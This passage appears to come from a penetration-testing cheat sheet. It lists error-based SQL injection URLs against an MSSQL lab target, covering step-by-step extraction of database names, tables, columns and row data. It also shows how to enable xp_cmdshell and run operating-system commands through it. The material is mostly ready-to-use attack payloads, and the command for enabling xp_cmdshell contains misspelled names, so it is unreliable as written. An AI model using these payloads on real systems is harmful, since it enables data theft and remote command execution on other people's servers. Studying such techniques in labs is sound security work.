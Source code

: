 
#### Database name

`http://192.168.1.104/Less-1/?id=-1 or db_name(0)=0 --`


#### Tables from a database

`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(name as varchar(4096)) FROM dbname..sysobjects where xtype='U')--`

---

`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(name as varchar(4096)) FROM dbname..sysobjects where xtype='U' AND name NOT IN ('previouslyFoundTable',...))--`


#### Columns within a table


`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(dbname..syscolumns.name as varchar(4096)) FROM dbname..syscolumns, dbname..sysobjects WHERE dbname..syscolumns.id=dbname..sysobjects.id AND dbname..sysobjects.name = 'tablename')--`

> remember to change **dbname** and **tablename** accordingly with the given situation
> after each iteration a new column name will be found, make sure add it to ** previously found column name ** separated by comma as on the next sample

`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(dbname..syscolumns.name as varchar(4096)) FROM dbname..syscolumns, dbname..sysobjects WHERE dbname..syscolumns.id=dbname..sysobjects.id AND dbname..sysobjects.name = 'tablename' AND dbname..syscolumns.name NOT IN('previously found column name', ...))--`


#### Actual data


`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(columnName as varchar(4096)) FROM tablename)--`

> after each iteration a new column name will be found, make sure add it to ** previously found column name ** separated by comma as on the next sample

`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(columnName as varchar(4096)) FROM tablename AND name NOT IN('previously found row data'))--`


#### Shell commands

`EXEC master..xp_cmdshell <command>`

> you need yo be 'sa' user

#### Enabling shell commands

`EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_congigure 'xp_shell', 1; RECONFIGURE;`


### Jenkins
